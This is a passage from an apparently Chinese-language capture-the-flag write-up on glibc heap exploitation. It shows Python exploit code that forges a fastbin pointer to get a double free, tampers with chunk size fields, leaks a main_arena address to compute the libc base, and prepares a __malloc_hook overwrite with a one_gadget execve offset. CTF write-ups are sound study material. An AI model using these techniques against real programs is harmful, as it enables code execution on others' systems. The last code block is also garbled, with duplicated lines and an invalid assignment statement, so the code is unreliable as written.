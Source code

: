    ![image-20240711161110921](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111611060.png)

   修改后，chunk2的fd指向chunk4（此时chunk4并没有被释放，所以再申请回去就能达成了double free，两个指针指向同一个chunk）：

   ![image-20240711161147880](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111611033.png)

   * 利用堆溢出修改chunk4的size字段，来绕过malloc 的检查：

   ```python
   #修改chunk4的size字段，申请时绕过fastbin的检查
   payload = p64(0)*3+p64(0x21)
   fill(3,payload)
   ```

   ![image-20240711161459967](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111615049.png)

   * 两次申请，将chunk4申请回原来的chunk2位置，再利用chunk3修改回chunk4的size字段（便于后面继续分配chunk）：

   ```python
   #第二次申请chunk4（2）
   add(0x10,b'f')    #1
   add(0x10,b'g')    #2 与4一起指向small chunk
   #将chunk4的size字段改回来
   payload = p64(0)*3 + p64(0x91)
   fill(3,payload)
   ```

   ![image-20240711161804445](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111618582.png)

   * 此时直接释放chunk4（或者chunk2）由于与top chunk相邻，会被直接回收，所以再申请一个chunk将其隔开，然后再释放：

   ```python
   #防止chunk4释放后，进入top chunk
   add(0x10,b'h')  #5 
   free(4)
   ```

   * 此时chunk2（chunk4）中会存在**main_arena**中的unsorted地址：

   ![image-20240711170418963](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202407111704151.png)

   * 正常情况下（此题没有UAF）再free掉chunk后是不能再访问的，但是前面构造的double free让我们可以利用chnk2和chunk4访问同一个chunk，前面用4释放了所以现在用chunk2来输出其中的内容（chunk2和chunk4指向同一个chunk）：

   ```python
   dump(2)
   addr = u64(p.recvuntil(b"\x7f")[-6:].ljust(8,b'\x00'))
   ##__malloc_hook只与main_arena地址相差0x10
   main_arena_offset = libc.symbols["__malloc_hook"]+0x10
   success("main_arena_offset==>"+hex(main_arena_offset))
   success("main_arena_unsortbin_addr==>"+hex(addr))
   #获得main_arena偏移后计算libc基地址
   libc_base = addr-(main_arena_offset+0x58)
   success("libc_addr==>"+hex(libc_base))
   
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   #用one_gadget查出execve的偏移
   malloc_hook = libc.symbols["__malloc_hook"]+libc_base
   execve_addr  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))  = 0x4526a + libc_base
   success("malloc_hook==>"+hex(malloc_hook))
   success("execve_addr==>"+hex(execve_addr))
   ```
